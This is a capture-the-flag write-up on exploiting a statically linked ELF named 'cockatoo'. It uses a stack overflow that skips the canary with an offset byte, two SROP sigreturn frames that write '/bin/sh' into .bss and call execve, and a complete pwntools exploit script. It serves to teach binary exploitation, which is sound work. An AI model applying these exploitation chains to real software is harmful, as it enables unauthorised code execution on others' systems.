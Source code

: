 # File Analysis 

[](images/file.png)
[](images/checksec.png)

As we can see it's normal ELF file but statically linked , no PIE and with canary 

# Code Analysis 

We are not introduced to many functions , so we only have the main to worry about 
[](images/ghidra.png)

This code reads input byte-by-byte from standard input until a newline or 256 characters are reached (there is no point of sending more than 256 bytes as only 256 are gonna be read ) storing it in local_118. It then writes the collected input to standard output and performs a stack integrity check using stack_chk_fail.
Then it checks if our input reaches 256 character, it will print that out 
Notice there is no format strings vulnerability so leaking the canary is out of our mind at this point .

# Looking at our ROP gadgets

Using ROPgadget, and looking through the gadgets we have we only see syscall ,and pop rax that matters 

[](images/gadgets.png)
At this point we start thinking of our vulnerability here which is SROP.
But notice here our syscall has not (ret), so this syscall is not going to benifit us, We'll search the binary itself for a syscall and we find this : 
[](images/syscall.png)


Knwoing SROP we only need syscall;ret , pop rax which now have and an address for /bin/sh or some other shell 
Searching the binary for a shell we couldn't find anything with a 0x400.. address 
[](images/bin.png)

So now we are thinking of a way to write /bin/sh into the binary, and that's possible due to the ability to write on .bss section, which can be found like this : 
[](images/vmmap.png)

the purple region is our writable space, for caution we will take 0x403000 + 100 = 0x0x403100

# Our first SROP frmae for reading
```python
POP_RAX = 0x0000000000401001
SYSCALL_RET = 0x0000000000401a8b
writable = 0x403100  # DATA section from vmmap + 0x100 for extra space 

# First SigreturnFrame for read(0, writable, 0x400)
frame = SigreturnFrame()
frame.rax = 0            # read syscall
frame.rdi = 0            # file descriptor stdin (0)
frame.rsi = writable     # where data will be stored
frame.rsp = writable     # make stack point to our writable address
frame.rdx = 0x400        # number of bytes to read
frame.rip = SYSCALL_RET  # return to syscall
```

# Canary and Stack alignment

So now we know we are using SROP to write /bin/sh then SROP to call /bin/sh , but what about the canary? 
We will start by sending 256 bytes and breaking there to examine the stack , we will set a break point at 0x00000000004011ca before the strlen being called , and hit continute 256 ( c 256 ) times so our input being read to the stack :

```python
payload = b'A' * 0x100   



payload += flat(
    POP_RAX,
    0xf,             # syscall number for sigreturn
    SYSCALL_RET,
    bytes(frame)     # the SigreturnFrame
)

# Send the first payload to read our input 
r.sendline(payload)
```

[](images/stack.png)

AS you can see, our 256 bytes + some bytes from rsi-2 + canary + rbp + ret address (our goal)

So until we reach ret address , there are \x18 bytes , notice the rbp value is 1 , so \x18 didn't work , we will use \x17 

```python
payload = b'A' * 0x100   + b'\x17' # the \x17 because we didn't reach the ret address yet 



payload += flat(
    POP_RAX,
    0xf,             # syscall number for sigreturn
    SYSCALL_RET,
    bytes(frame)     # the SigreturnFrame
)

# Send the first payload to read our input 
r.sendline(payload)
```

[](images/read.png)

from the image we see now are prompted with another read syscall :) 

# /bin/sh address calculation 

Now our seconde read we will use it to call execve with our /bin/sh (we didn't write /bin/sh yet)
we will write it after the execve syscall and locate it first
our break point will be after sending our first payload

```python
# Second SigreturnFrame for execve("/bin/sh", 0, 0)
frame2 = SigreturnFrame()
frame2.rax = 0x3b        # execve syscall
frame2.rdi = 000000    # pointer to "/bin/sh" in writable memory still unknown
frame2.rsi = 0           # argv = NULL
frame2.rdx = 0           # envp = NULL
frame2.rip = SYSCALL_RET # return to syscall

# Payload to trigger the second sigreturn frame
payload2 = flat(
    POP_RAX,
    0xf,             # syscall number for sigreturn
    SYSCALL_RET,
    bytes(frame2)
)

# Send the second payload and /bin/sh
r.sendline(payload2  + b'/bin/sh\x00')

```
notice here our new stack 
[](images/newstack.png)

hit continue again , then search for /bin/sh
[](images/binsh.png)

now we have located it , our exploit is complete we just need to call it 


# Full Exploit 


```python
from pwn import *

# Assuming the binary is called 'cockatoo'
context.binary = elf = ELF('./cockatoo')
r = process()
# gdb.attach(r,gdbscript='''b * 0x00000000004011ca''')

POP_RAX = 0x0000000000401001
SYSCALL_RET = 0x0000000000401a8b
writable = 0x403100  # DATA section from vmmap + 0x100 for extra space 

# First SigreturnFrame for read(0, writable, 0x400)
frame = SigreturnFrame()
frame.rax = 0            # read syscall
frame.rdi = 0            # file descriptor stdin (0)
frame.rsi = writable     # where data will be stored
frame.rsp = writable     # make stack point to our writable address
frame.rdx = 0x400        # number of bytes to read
frame.rip = SYSCALL_RET  # return to syscall

# Payload to trigger the first sigreturn frame
payload = b'A' * 0x100  + b'\x17' # the \x17 because I didn't reach the ret address yet 



payload += flat(
    POP_RAX,
    0xf,             # syscall number for sigreturn
    SYSCALL_RET,
    bytes(frame)     # the SigreturnFrame
)

# Send the first payload to read our input 
r.sendline(payload)
# gdb.attach(r)

# Second SigreturnFrame for execve("/bin/sh", 0, 0)
frame2 = SigreturnFrame()
frame2.rax = 0x3b        # execve syscall
frame2.rdi = 0x403210    # pointer to "/bin/sh" in writable memory
frame2.rsi = 0           # argv = NULL
frame2.rdx = 0           # envp = NULL
frame2.rip = SYSCALL_RET # return to syscall

# Payload to trigger the second sigreturn frame
payload2 = flat(
    POP_RAX,
    0xf,             # syscall number for sigreturn
    SYSCALL_RET,
    bytes(frame2)
)

# Send the second payload to execute the shell
r.sendline(payload2  + b'/bin/sh\x00')


# Interact with the spawned shell
r.interactive()
```

[](images/id.png)




